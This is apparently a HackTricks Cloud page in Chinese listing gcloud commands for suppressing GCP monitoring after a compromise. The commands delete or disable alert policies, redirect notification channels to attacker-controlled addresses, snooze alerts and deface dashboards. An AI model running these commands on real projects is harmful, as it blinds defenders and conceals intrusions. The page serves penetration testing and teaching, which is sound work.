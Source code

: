 # GCP - 监控后渗透

{% hint style="success" %}
学习与实践 AWS 黑客技术：<img src="../../../.gitbook/assets/image (1) (1) (1).png" alt="" data-size="line">[**HackTricks 培训 AWS 红队专家 (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image (1) (1) (1).png" alt="" data-size="line">\
学习与实践 GCP 黑客技术：<img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks 培训 GCP 红队专家 (GRTE)**<img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>支持 HackTricks</summary>

* 查看 [**订阅计划**](https://github.com/sponsors/carlospolop)!
* **加入** 💬 [**Discord 群组**](https://discord.gg/hRep4RUj7f) 或 [**Telegram 群组**](https://t.me/peass) 或 **关注** 我们的 **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks_live)**.**
* **通过向** [**HackTricks**](https://github.com/carlospolop/hacktricks) 和 [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) GitHub 仓库提交 PR 分享黑客技巧。

</details>
{% endhint %}

## 监控

有关更多信息，请查看：

{% content-ref url="../gcp-services/gcp-monitoring-enum.md" %}
[gcp-monitoring-enum.md](../gcp-services/gcp-monitoring-enum.md)
{% endcontent-ref %}

有关其他干扰日志的方法，请查看：

{% content-ref url="gcp-logging-post-exploitation.md" %}
[gcp-logging-post-exploitation.md](gcp-logging-post-exploitation.md)
{% endcontent-ref %}

### `monitoring.alertPolicies.delete`

删除警报策略：
```bash
gcloud alpha monitoring policies delete <policy>
```
### `monitoring.alertPolicies.update`

破坏警报策略：
```bash
# Disable policy
gcloud alpha monitoring policies update <alert-policy> --no-enabled

# Remove all notification channels
gcloud alpha monitoring policies update <alert-policy> --clear-notification-channels

# Chnage notification channels
gcloud alpha monitoring policies update <alert-policy> --set-notification-channels=ATTACKER_CONTROLLED_CHANNEL

# Modify alert conditions
gcloud alpha monitoring policies update <alert-policy> --policy="{ 'displayName': 'New Policy Name', 'conditions': [ ... ], 'combiner': 'AND', ... }"
# or use --policy-from-file <policy-file>
```
### `monitoring.dashboards.update`

修改仪表板以干扰它：
```bash
# Disrupt dashboard
gcloud monitoring dashboards update <dashboard> --config='''
displayName: New Dashboard with New Display Name
etag: 40d1040034db4e5a9dee931ec1b12c0d
gridLayout:
widgets:
- text:
content: Hello World
'''
```
### `monitoring.dashboards.delete`

删除仪表板：
```bash
# Delete dashboard
gcloud monitoring dashboards delete <dashboard>
```
### `monitoring.snoozes.create`

通过创建一个 snoozer 来防止策略生成警报：

{% code overflow="wrap" %}
```bash
# Stop alerts by creating a snoozer
gcloud monitoring snoozes create --display-name="Maintenance Week" \
--criteria-policies="projects/my-project/alertPolicies/12345,projects/my-project/alertPolicies/23451" \
--start-time="2023-03-01T03:00:00.0-0500" \
--end-time="2023-03-07T23:59:59.5-0500"
```
{% endcode %}

### `monitoring.snoozes.update`

更新 snoozer 的时间，以防止在攻击者感兴趣时创建警报：

{% code overflow="wrap" %}
```bash
# Modify the timing of a snooze
gcloud monitoring snoozes update <snooze> --start-time=START_TIME --end-time=END_TIME

# odify everything, including affected policies
gcloud monitoring snoozes update <snooze> --snooze-from-file=<file>
```
{% endcode %}

### `monitoring.notificationChannels.delete`

删除已配置的通道：
```bash
# Delete channel
gcloud alpha monitoring channels delete <channel>
```
### `monitoring.notificationChannels.update`

更新通道的标签以干扰它：

{% code overflow="wrap" %}
```bash
# Delete or update labels, for example email channels have the email indicated here
gcloud alpha monitoring channels update CHANNEL_ID --clear-channel-labels
gcloud alpha monitoring channels update CHANNEL_ID --update-channel-labels=email_address=attacker@example.com
```
{% endcode %}

{% hint style="success" %}
学习与实践 AWS 黑客技术：<img src="../../../.gitbook/assets/image (1) (1) (1).png" alt="" data-size="line">[**HackTricks 培训 AWS 红队专家 (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image (1) (1) (1).png" alt="" data-size="line">\
学习与实践 GCP 黑客技术：<img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks 培训 GCP 红队专家 (GRTE)**<img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>支持 HackTricks</summary>

* 查看 [**订阅计划**](https://github.com/sponsors/carlospolop)!
* **加入** 💬 [**Discord 群组**](https://discord.gg/hRep4RUj7f) 或 [**Telegram 群组**](https://t.me/peass) 或 **在** **Twitter** 🐦 **上关注我们** [**@hacktricks\_live**](https://twitter.com/hacktricks_live)**.**
* **通过向** [**HackTricks**](https://github.com/carlospolop/hacktricks) 和 [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) GitHub 仓库提交 PR 来分享黑客技巧。

</details>
{% endhint %}
